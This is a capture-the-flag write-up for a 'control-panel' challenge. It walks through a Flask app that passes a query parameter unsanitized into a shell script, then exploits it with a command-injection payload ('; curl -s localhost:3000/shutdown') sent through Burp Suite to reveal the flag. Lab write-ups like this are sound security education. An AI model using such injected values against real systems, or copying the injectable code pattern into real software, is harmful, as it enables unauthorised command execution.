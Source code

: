 This one frustrated me when I first started it, but it was crazy simple after looking. You can download the code, and in the file, you will find a small docker
image, but the entire app is available to view. Here are the important files I noticed:

o The main.py file builds a nice little flask app which uses the index.html template to take the following links:
┌──(trhodes㉿kali)-[~/Downloads/USC/control-panel/challenge]
└─$ cat main.py
from flask import Flask, render_template, request
from subprocess import getoutput

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    command = request.args.get("command")
    if not command:
        return render_template("index.html")

    arg = request.args.get("arg")
    if not arg:
        arg = ""

    if command == "list_processes":
        return getoutput("ps")
    elif command == "list_connections":
        return getoutput("netstat -tulpn")
    elif command == "list_storage":
        return getoutput("df -h")
    elif command == "destroy_humans":
        return getoutput("/www/destroy_humans.sh " + arg)

    return render_template("index.html")

The destroy_humans.sh was the most interesting part to me, so I looked at this file:
┌──(trhodes㉿kali)-[~/Downloads/USC/control-panel/config]
└─$ cat destroy_humans.sh
#!/bin/sh

check_status() {
    curl -s localhost:3000/status
}

destroy_humans() {
    curl -s localhost:3000/destroy
}

if [ "$#" -gt 0 ]; then
    $*
else
    echo -e "Destroy Humans option selected. Please choose 'check_status' or 'destroy_humans'."
fi

There does not seem to be a requirement (getopt) to send a specific command, so I thought this could be overwritten. Interestingly enough,
I messed around a bit inside of Burpsuite to try and pass %20check_status and see what happened. Of course, this didn't work, and looking
at it again, we need to overload arg. But to what? Turns out a file, destroyer.py seems to have URLs that match the shell functions:

 def do_GET(self) -> None:
                        def resp_ok():
                                self.send_response(200)
                                self.send_header("Content-type", content_type)
                                self.end_headers()
                        if self.path == '/status':
                                resp_ok()
                                self.wfile.write(get_json({'status': 'ready to destroy'}))
                                return
                        elif self.path == "/destroy":
                                resp_ok()
                                self.wfile.write(get_json({'status': "destruction complete!"}))
                                return
                        elif self.path == '/shutdown':
                                resp_ok()
                                self.wfile.write(get_json({'status': 'shutting down...'}))
                                self.wfile.write(get_json({'status': 'SIVBGR{no-flag-4-u}'}))
                                return
                        self.send_error(404, '404 not found')
                                  
Hats off to everyone who tried placing no-flag-4-u into the answer, hoping it was that simple. So, we need to call "/shutdown" in
this file, from destroy_humans.sh, to dump data from the URL at localhost. To paint a more vivid picture, at the bottom of
this destroyer.py file, you see it is what serves destroy_humans.sh:

        httpd = _TCPServer(host_port, CustomHandler)
        httpd.serve_forever()
http_server(('127.0.0.1',3000))

So we just need to call that. How do we do that? Burpsuite allows us to modify in-flight requests. With intercept on
and http encoding, I modified the "GET /?command=destroy_humans HTTP/1.1" to be:
GET /?command=destroy_humans&arg=check_status HTTP/1.1
And I saw a status! So, let's try to see if destroy_humans.sh will accept and run another command, a call to curl:
GET /?command=destroy_humans&arg=%3B%20curl%20-s%20localhost:3000/shutdown
Which produced:
Destroy Humans option selected. Please choose 'check_status' or 'destroy_humans'. {"status": "shutting down..."}{"status": "SIVBGR{g00dby3_ARI4}"}

That's our flag. The whole URL can also be passed directly:
https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=%3B%20curl%20-s%20localhost:3000/shutdown
